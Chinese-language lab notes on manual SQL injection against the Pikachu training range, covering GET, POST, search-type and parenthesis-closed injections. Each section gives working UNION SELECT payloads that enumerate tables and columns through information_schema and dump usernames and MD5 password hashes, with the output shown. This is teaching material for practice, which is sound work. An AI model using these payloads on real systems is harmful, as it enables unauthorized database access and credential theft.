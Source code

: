 # 常规注入

---

（本案例使用pikachu靶场）

## get型   （数字/字符串）

目标网站的查询语句：select uid,email from xxx where name='admin'  ，查询的name为字符型，需要加单引号闭合

1.判断注入点：（不知道用户情况下，左边必为错误，用and的话判断不了，只能用or，而且需要单引号或者双引号进行闭合）

```
name=1' or 1=1 #  #回显正确，返回所有用户信息，左边错误，右边正确

name=1' or 1=2 #  #回显错误，用户不存在，左右两边均错误
```

出现：

```
your uid:1

your email is: vince@pikachu.com

your uid:2

your email is: allen@pikachu.com

your uid:3

your email is: kobe@pikachu.com
```



2.判断字段个数（不是判断该表的字段总数）

使用order by 不能加or，所有要用查询得到的数据

```
name=kobe' order by 1   #   #从1开始，直到3报错，表示该字段个数是不大于3
```



3.使用当前数据库进行查询表名

```
name=kobe'  union select 1,group_concat(table_name) from information_schema.tables where table_schema = database() #
```

出现：

```
httpinfo,member,message,users,xssblind
```



4.查看其中’user‘表的字段

```
name=kobe'  union select 1,group_concat(column_name) from information_schema.columns where table_name = 'users' #
```

出现

```
USER,CURRENT_CONNECTIONS,TOTAL_CONNECTIONS,id,username,password,level,id,username,password,level,ContractID,CustomerID,ContractNO,CompanyID,CompanyName,ServicePeople,UserRealName,CustomerName,CustomeNO,CustomePhon
```



5.查询user表的username和password字段的数据

```
name=kobe' union select username,password from users #
```

出现：

```
admin：e10adc3949ba59abbe56e057f20f883e（123456）

pikachu：e10adc3949ba59abbe56e057f20f883e（123456）

test：e10adc3949ba59abbe56e057f20f883e（123456）
```





## post型  （数字/字符串）

目标网站的查询语句：select uid,email from xxx where id=1   ，查询的id为数字型，1为输入内容

因前端只能点击选择数字，所以使用bp抓包，绕过这层限制，以下为bp抓包修改id的内容：



1.判断注入点

找到显示报错信息的标签进行定位（notice）

满足以下为数字型注入

```
id=1'  #语法错误，因前面没有单引号，错误信息在最底下

id=1 and 1=1  #正常页面 ，左右边正确返回正常页面（notice定位）

id=1 and 1=2  #用户不存在，左边正确，右边错误，返回用户不存在页面（notice定位）s
```



2.判断页面显示字段的个数（不是判断该表的字段总数）

```
id=1 order by 1   #从1开始试，直到3报错，表示该查询语句的字段个数不大于3
```



3.使用当前数据库进行查询表名

```
id=1 union select 1,group_concat(table_name) from information_schema.tables where table_schema = database()
```

出现：

```
httpinfo,member,message,users,xssblind
```



4.查看其中’user‘表的数据

```
id=1  union select 1,group_concat(column_name) from information_schema.columns where table_name = 'users'
```

出现

```
USER,CURRENT_CONNECTIONS,TOTAL_CONNECTIONS,id,username,password,level,id,username,password,level,ContractID,CustomerID,ContractNO,CompanyID,CompanyName,ServicePeople,UserRealName,CustomerName,CustomeNO,CustomePhon
```



5.查询user表的username和password字段的数据

```
id=1 union select username,password from users
```

出现：

```
admin：e10adc3949ba59abbe56e057f20f883e（123456）

pikachu：e10adc3949ba59abbe56e057f20f883e（123456）

test：e10adc3949ba59abbe56e057f20f883e（123456）
```





## 搜索型注入

目标网站的查询语句：select * from xxx where name like '%admin%' ，查询的name为字符型，需要加单引号闭合,admin为输入内容

1.判断注入点

```
name=' and 1=1 #查询所有，因为左右均正确

name=' and 1=2 #查询不到，左边正确，右边错误
```



2.判断字段个数

```
name=' order by 1 #从1开始直到4错误，代表字段不大于4个
```



3.查询当前数据库的所有表（加x，让前面模糊查询得不到数据（不加x也行，但是在））

```
name=x' union select 1,group_concat(table_name),3 from information_schema.tables where table_schema = database() #
```

出现：

```
httpinfo,member,message,users,xssblind  
```



4.查看其中’user‘表的数据

```
name=x'  union select 1,group_concat(column_name),3 from information_schema.columns where table_name = 'users' #
```

出现：

```
USER,CURRENT_CONNECTIONS,TOTAL_CONNECTIONS,id,username,password,level,id,username,password,level,ContractID,CustomerID,ContractNO,CompanyID,CompanyName,ServicePeople,UserRealName,CustomerName,CustomeNO,CustomePhon
```



5.查询user表的username和password字段的数据

```
name=x' union select username,password,3 from users #
```

出现：

```
username：admin

uid:e10adc3949ba59abbe56e057f20f883e

email is: 3

username：pikachu

uid:670b14728ad9902aecba32e22fa4f6bd

email is: 3

username：test

uid:e99a18c428cb38d5f260853678922e03

email is: 3
```





## XX型注入

在上述get和post型的基础上，延伸出xx型注入

闭合的符号未知，得一个个测试，因目标是字符型，所有需要单引号或者双引号（这两个也是要测试）

目标网站的查询语句：select * from xxx where name=('admin')，查询的name为字符型，需要加单引号闭合,admin为输入内容

1.判断注入点（测试出来闭合为 " ) " ）

```
name=') or 1=1 #     #查询出所有数据，左边错误右边正确

name=') or 1=2 #     #不存在用户，左右两边均错误
```



2.判断字段个数

```
name=') order by 1 #      #从1开始，直到3错误，字段个数不大于3
```



3.查询当前库得所有表

```
name=')  union select 1,group_concat(table_name) from information_schema.tables where table_schema = database() #
```

出现：

```
httpinfo,member,message,users,xssblind
```



4.查看其中’user‘表的数据

```
name=')  union select 1,group_concat(column_name) from information_schema.columns where table_name = 'users' #
```

出现

```
USER,CURRENT_CONNECTIONS,TOTAL_CONNECTIONS,id,username,password,level,id,username,password,level,ContractID,CustomerID,ContractNO,CompanyID,CompanyName,ServicePeople,UserRealName,CustomerName,CustomeNO,CustomePhon
```



5.查询user表的username和password字段的数据

```
name=')  union select username,password from users #
```

出现：

```
admin：e10adc3949ba59abbe56e057f20f883e（123456）

pikachu：e10adc3949ba59abbe56e057f20f883e（123456）

test：e10adc3949ba59abbe56e057f20f883e（123456）
```

